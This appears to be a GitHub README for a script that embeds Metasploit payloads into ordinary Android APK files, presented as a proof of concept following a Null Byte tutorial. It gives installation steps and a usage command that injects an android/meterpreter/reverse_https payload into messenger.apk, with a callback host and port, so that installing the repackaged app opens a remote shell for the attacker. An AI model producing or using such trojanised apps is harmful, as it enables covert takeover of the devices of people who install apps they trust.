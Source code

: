 # **Use it on your own risk**
Embed a Metasploit Payload in an Original .Apk File
<br />
> I choose a lazy person to do a hard job. Because a lazy person will find an easy way to do it.
 
  — [Bill Gates](http://www.goodreads.com/quotes/568877-i-choose-a-lazy-person-to-do-a-hard-job)
 
**This script is a POC for injecting metasploit payloads on arbitrary APKs and Result of [How to Embed a Metasploit Payload in an Original .Apk File](http://null-byte.wonderhowto.com/how-to/embed-metasploit-payload-original-apk-file-0166901/) Lesson**
**Authored by timwr, Jack64 , Updated by [xC0d3rZ](https://xc0d3rz.github.io/whoaim)**
###Installation
```bash
 gem install bundler
 bundler install
``` 
###Requirements 
 
 1. Ruby (**> 1.8.7**).
 2. Android SDK(** For injection **)
 
###Warring 
Don't edit or remove **embed_tools** folder.
Don't remove or edit **tmp/*** folder until script finish Embedding 
###Usage
```bash
./run [target.apk] [msfvenom options]
```
<br>
e.g
```bash
./run messenger.apk -p android/meterpreter/reverse_https LHOST=192.168.1.1 LPORT=8443
```

